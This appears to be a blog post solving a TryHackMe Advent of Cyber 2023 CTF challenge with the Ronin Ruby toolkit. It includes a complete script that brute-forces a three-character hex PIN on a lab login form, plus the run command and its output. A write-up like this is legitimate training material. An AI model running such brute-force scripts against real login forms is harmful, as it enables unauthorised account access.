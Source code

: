 ```yaml
---
layout: post
title: Solving Advent of Cyber 2023 Day 3 using Ronin
author: postmodern
tags:
  - adventofcyber
  - adventofcyber2023
  - ctf
  - tryhackme
  - ruby
  - ronin
  - writeup
---
```


This year I decided to try using Ronin to solve the [Advent of Cyber 2023]
challenges. Let's see how far I can get.

The Day 3 challenge involves a basic HTTP form which accepts a three digit PIN
code. The PIN code can contain numeric or uppercase hexadecimal numbers.
The instructions for the challenge recommends using the [crunch] utility to
generate a wordlist file containing every three character combination of
uppercase hexadecimal characters and then use [hydra] to bruteforce the login
form. Instead, we're going to do all of that in a single Ruby script using
Ronin and it's powerful libraries.

First, we will test the HTTP form by intentionally entering an incorrect PIN
code and seeing what the response is. In the Network tab of Chrome DevTools,
we can see a failed login attempt results in a HTTP 302 response with a 
`Location` header of `error.php`. Since we don't know what a valid login
HTTP response looks like, we will have to assume anything that is not a
HTTP 302 redirect to `error.php` can be considered a successful login.

Next we will write a bruteforcing Ruby script which will send every possible
three character combination of numbers and uppercase hexadecimal characters.
To do that we will use the [chars] library, which provides a
[Chars::UPPERCASE_HEXADECIMAL] constant containing characters `0` - `9` and
`A` - `F`. Then we will use the [wordlist] library to generate every character
combination of uppercase hexadecimal characters. Then we will use
[ronin-support] to establish a persistent HTTP connection and send login
requestions until a non-HTTP 302 redirect response is returned.

```ruby
require 'ronin/support'
require 'wordlist'
require 'chars'

include Ronin::Support

charset  = Chars::UPPERCASE_HEXADECIMAL.chars
wordlist = Wordlist::Words.new(charset) ** 3

ip   = ARGV[0]
http = http_connect(ip,8000)

response       = http.get('/pin.php')
session_cookie = response['Set-Cookie']

wordlist.each do |pin|
  print_info "Trying #{pin} ..."
  response = http.post('/login.php', form_data: {pin: pin},
                                     cookie:    session_cookie)

  if response.code == '302' && response['Location'] == 'error.php'
    # login failed, keep trying ...
  else
    print_success "Jack Pot! #{pin}"
    exit 0
  end
end
```

Now to run the bruteforcing Ruby script against the target machine IP address.
We will add the `--jit` option to try to speed up our Ruby script as much as
possible.

```shell
$ ruby --jit bruteforce.rb 10.10.185.45
```
and eventually we will hit the correct PIN code:

```
...
[*] Trying 6F2 ...
[*] Trying 6F3 ...
[*] Trying 6F4 ...
[*] Trying 6F5 ...
[+] Jack Pot! 6F5
```

As you can see, Ronin provides you with powerful libraries that can make solving
CTF challenges easy and fun.

[Advent of Cyber 2023]: https://tryhackme.com/room/adventofcyber2023
[crunch]: https://www.kali.org/tools/crunch/
[hydra]: https://www.kali.org/tools/hydra/
[chars]: https://github.com/postmodern/chars.rb#readme
[wordlist]: https://github.com/postmodern/wordlist.rb#readme
[ronin-support]: https://github.com/ronin-rb/ronin-support#readme
